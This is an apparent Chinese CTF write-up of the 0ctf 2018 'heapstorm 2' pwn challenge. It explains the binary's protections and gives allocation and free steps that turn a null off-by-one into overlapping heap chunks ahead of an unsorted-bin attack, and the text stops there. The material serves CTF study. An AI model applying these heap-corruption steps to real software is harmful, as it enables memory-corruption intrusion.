 #0ctf 2018 heapstorm 2

反正打死我也想不到是这么做的
看看wp，我觉得我还是陪鱼师傅摸鱼吧。

###  题目简述
首先通过

```c
 if ( !mallopt(1, 0) )
    exit(-1);
```
关掉了fastbin。

然后在0x13370800上mmap出一块内存，上面存着如下数组：

```c
a1[0]
a1[1]
a1[2]  都是随机数
a1[3]  

a1[4] = a1[0] ^ addr    addr = calloc(size)
a1[5] = a1[1]^size
...

a1[3] = a1[2]
```
Update的时候有一个 null off-by-one.

view的时候会检查：

```c
if ( (a1[3] ^ a1[2]) != 0x13377331LL )
    return puts("Permission denied");
```
所以整个题目问题的关键是当前情况下无法view，也就无法泄露任何地址。所以绕过view的检查就是思路的开始。

如果通过一堆骚操作能返回任意的地址该多好啊。

### unsortbin and largrbin 骚操作（house of 啥？）

null off-by-one可以chunk shrink去造成chunk overlap。

```c
 alloc(0x18)     #0
 alloc(0x508)    #1
 alloc(0x18)     #2
 update(1, 'h'*0x4f0 + p64(0x500))   #set fake prev_size

 alloc(0x18)     #3
 alloc(0x508)    #4
 alloc(0x18)     #5
 update(4, 'h'*0x4f0 + p64(0x500))   #set fake prev_size
 alloc(0x18)     #6

 free(1)
 update(0, 'h'*(0x18-12))    #off-by-one
 alloc(0x18)     #1
 alloc(0x4d8)    #7
 free(1)
 free(2)         #backward consolidate
 alloc(0x38)     #1
 alloc(0x4e8)    #2
```
这时候2和7就重叠了。 如果2被free掉，7可以改写free chunk。就可以unsortbin attack。
